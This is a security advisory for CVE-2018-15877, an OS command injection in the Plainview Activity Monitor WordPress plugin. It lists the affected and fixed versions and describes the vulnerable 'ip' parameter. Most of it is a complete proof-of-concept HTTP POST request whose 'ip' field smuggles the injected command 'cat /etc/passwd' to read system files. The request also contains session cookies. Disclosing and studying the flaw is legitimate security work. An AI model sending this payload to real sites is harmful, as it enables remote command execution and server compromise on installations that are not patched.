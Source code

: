 # RCE with [```Plainview Activity Monitor```](https://fr.wordpress.org/plugins/plainview-activity-monitor/) WordPress plugin  
- Affected: ```Plainview Activity Monitor``` WordPress plugin.
- Vulnerable version: `20161228` and possibly prior
- Fixed version: `20180826`
- Privileges required: yes (but found CSRF & XSS can be combined - see [poc.html](https://github.com/aas-n/CVE/blob/master/CVE-2018-15877/poc.html))
- CVE-ID: ```CVE-2018-15877```
- Author:
  - [Lydéric Lefebvre](https://www.linkedin.com/in/lydericlefebvre/)

## Index

| Title        | Description   |
| ------------- |:-------------|
| [Description](#description)  | Description |
| [PoC](#poc) | PoC |

## Description

Plainview Activity Monitor is vulnerable to OS commanding which allows an attacker to remotely execute commands on underlying system. ```ip``` parameter in ```page=plainview_activity_monitor&tab=activity_tools``` is vulnerable.

![oscommanding](https://image.noelshack.com/fichiers/2018/34/6/1535228244-oscommand.png)

## PoC
```
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```

